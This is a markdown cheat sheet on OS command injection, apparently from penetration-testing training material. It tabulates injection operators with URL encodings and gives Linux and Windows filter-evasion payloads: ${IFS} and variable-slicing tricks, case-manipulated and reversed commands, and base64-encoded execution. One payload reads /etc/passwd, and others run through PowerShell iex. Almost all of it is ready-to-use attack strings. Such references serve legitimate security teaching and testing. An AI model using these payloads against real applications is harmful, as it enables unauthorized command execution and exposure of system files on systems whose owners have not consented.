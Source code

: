﻿## Injection Operators

|**Injection Operator**|**Injection Character**|**URL-Encoded Character**|**Executed Command**|
|---|---|---|---|
|Semicolon|`;`|`%3b`|Both|
|New Line|`\n`|`%0a`|Both|
|Background|`&`|`%26`|Both (second output generally shown first)|
|Pipe|`\|`|`%7c`|Both (only second output is shown)|
|AND|`&&`|`%26%26`|Both (only if first succeeds)|
|OR|`\|`|`%7c%7c`|Second (only if first fails)|
|Sub-Shell|` `` `|`%60%60`|Both (Linux-only)|
|Sub-Shell|`$()`|`%24%28%29`|Both (Linux-only)|

---

# Linux

## Filtered Character Bypass

|Code|Description|
|---|---|
|`printenv`|Can be used to view all environment variables|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`${IFS}`|Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e.`$()`)|
|`{ls,-la}`|Commas will be replaced with spaces|
|**Other Characters**||
|`${PATH:0:1}`|Will be replaced with`/`|
|`${LS_COLORS:10:1}`|Will be replaced with`;`|
|`$(tr '!-}' '"-~'<<<[)`|Shift character by one (`[` ->`\`)|

---

## Blacklisted Command Bypass

|Code|Description|
|---|---|
|**Character Insertion**||
|`'` or`"`|Total must be even|
|`$@` or`\`|Linux only|
|**Case Manipulation**||
|`$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`|Execute command regardless of cases|
|`$(a="WhOaMi";printf %s "${a,,}")`|Another variation of the technique|
|**Reversed Commands**||
|`echo 'whoami' \| rev`|Reverse a string|
|`$(rev<<<'imaohw')`|Execute reversed command|
|**Encoded Commands**||
|`echo -n 'cat /etc/passwd \| grep 33' \| base64`|Encode a string with base64|
|`bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`|Execute b64 encoded string|

---

# Windows

## Filtered Character Bypass

|Code|Description|
|---|---|
|`Get-ChildItem Env:`|Can be used to view all environment variables - (PowerShell)|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`%PROGRAMFILES:~10,-5%`|Will be replaced with a space - (CMD)|
|`$env:PROGRAMFILES[10]`|Will be replaced with a space - (PowerShell)|
|**Other Characters**||
|`%HOMEPATH:~0,-17%`|Will be replaced with`\` - (CMD)|
|`$env:HOMEPATH[0]`|Will be replaced with`\` - (PowerShell)|

---

## Blacklisted Command Bypass

| Code | Description |
| ------------------------------------------------------------------------------------------------------------ | ---------------------------------------- |
| **Character Insertion** | |
| `'` or`"` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** | |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** | |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** | |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |
